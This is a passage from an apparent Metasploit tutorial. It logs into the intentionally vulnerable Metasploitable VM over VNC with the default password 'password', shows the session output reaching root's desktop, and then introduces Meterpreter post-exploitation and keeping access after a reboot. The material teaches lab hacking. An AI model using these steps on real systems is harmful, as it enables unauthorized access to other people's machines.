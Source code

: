 ```
msf6 auxiliary(scanner/vnc/vnc_login) > vncviewer 192.168.74.129
[*] exec: vncviewer 192.168.74.129

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password:
```

At this point, you’ll have to provide the password. Type in `password` and you’ll get in:

```
msf6 auxiliary(scanner/vnc/vnc_login) > vncviewer 192.168.74.129
[*] exec: vncviewer 192.168.74.129
```

```
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```

Do you want to see the GUI version of the Metasploitable that we cracked just now? Here’s the view from the TightVNC application.

<figure><img src="https://nooblinux.com/wp-content/uploads/2022/02/word-image-1.png" alt=""><figcaption></figcaption></figure>

This is beautiful. Now you can pretty much do anything you desire. Now that we’ve shown you 3 ways you can exploit the Metasploitable with the Metasploit Framework, it’s time to show you the things you might have to do once you’ve gained access.

### Post Exploitation tasks with Metasploit & Meterpreter <a href="#post-3536-_heading-h.vx1227" id="post-3536-_heading-h.vx1227"></a>

One of the tasks you might do after exploiting is keeping the session in the background while you work on the Metasploit Framework. We’ve already shown you how to do that in the previous section. However, if you exit from the session then that opened session will be gone.

You will need to exploit the machine once again to get another session. The same thing will happen if the victim chooses to reboot the machine. In this section, we’ll show you how to keep your access even if the victim reboots his/her machine.

One of the most useful tools after exploiting a target is the Meterpreter shell. It has many custom functionalities built into it that you don’t need to make a program or install any software to do.
